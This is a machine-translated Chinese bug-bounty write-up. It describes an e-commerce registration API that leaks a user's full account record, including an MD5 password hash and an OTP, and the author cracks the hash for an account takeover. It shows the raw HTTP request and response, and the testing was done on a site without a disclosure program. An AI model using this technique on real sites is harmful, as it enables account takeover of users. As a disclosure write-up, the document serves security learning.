


# 有趣的帐户接管错误

> 原文：<https://infosecwriteups.com/interesting-account-takeover-bugs-in-the-wild-619df8466ca0?source=collection_archive---------2----------------------->

## 在这篇文章中，我们将会看到一种有趣的虫子，这种虫子在野外并不常见。


有趣的帐户接管错误写错误赏金猎人

我在做一个电子商务目标，它没有任何**漏洞奖励计划或漏洞披露政策**。但幸运的是，我看到该公司最近应用了一个补丁，并显示在*openbugbounty.org*页面上。

所以像往常一样，我开始侦察，很快我收集了所有的子域和公司的资产，包括电子邮件和收入信息。我发现了一些反映跨站脚本的错误，很快我报告了它们，但我仍然在等待，显然没有任何希望，等待他们的回复。反正进入正题。

几乎所有的网站都有用户注册和登录。

于是我试着注册了一个账号。我一输入我的电子邮件 id，它就向应用程序发送一个 POST 请求，以检查是否存在任何电子邮件。

```
POST /apicallback/webUsers/checkRegistered/ HTTP/2
Host: www.redacted.com
...
...{
    "email":"thisistest123@gmail.com",
    "keepLogged":true
}
```

如果没有任何用户已经注册了该电子邮件，则响应为

```
HTTP/2 200 OK
Date: Fri, 04 Nov 2022 11:00:04 GMT
Content-Type: text/html; charset=UTF-8
...
...{"error":"0","errorMsg":"email id not registered"}
```

响应到达浏览器后，用户被重定向到密码页面。

但是，如果有任何帐户已经注册，那么它会发送帐户的所有信息，如电子邮件、注册日期、购物车 id、购物车中的物品以及更多信息，包括 **md5 密码哈希**。

```
HTTP/2 200 OK
Date: Fri, 04 Nov 2022 11:04:31 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 766
...
...{"entity_id":"714467","entity_type_id":"1","attribute_set_id":"0","website_id":"1","email":"thisistest123@gmail.com","group_id":"1","store_id":"1","created_at":"2022-11-04 08:27:51","updated_at":"2022-11-04 08:27:49","is_active":"1","batch_id":"3","created_in":"Default Store View","password_hash":"482c811da5d5b4bc6d497ffa98491e38","is_subscribe":1,"addresses":[],"menu_data":[{"page_id":3,"title":"ABOUT US"},{"page_id":4,"title":"CONTACT US"},{"page_id":6,"title":"SHIPPING"},{"page_id":7,"title":"RETURNS"},{"page_id":8,"title":"HELP"},{"page_id":9,"title":"TERMS"},{"page_id":10,"title":"PRIVACY"},{"page_id":11,"title":"CAREERS"}],"caching_time":900,"image_caching_time":90000,"Cards":[],"cardsCount":0,"error":"1","errorMsg":"User already exist","otp":938061}
```

这是实际的图像。


有趣的帐户接管错误写错误赏金猎人

如果你仔细观察这个回答，你会发现。



有趣的帐户接管错误写错误赏金猎人

于是我瞬间复制了 **md5 密码哈希**并解码。



有趣的帐户接管错误写错误赏金猎人

并检索密码为 **password123**

我瞬间做了 POC，报了公司。

如果你喜欢读这篇文章，那就看看我们其他相关主题的文章。

让我们连接起来

Twitter:`[proton_sec](https://twitter.com/proton_sec)`
GitHub:`[proton-sec](https://github.com/proton-sec)`
LinkedIn:`[protonsec](https://www.linkedin.com/in/protonsec/)`

如果你想欣赏和支持我的工作，给你…

[](https://www.buymeacoffee.com/protonsec)

感谢阅读。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！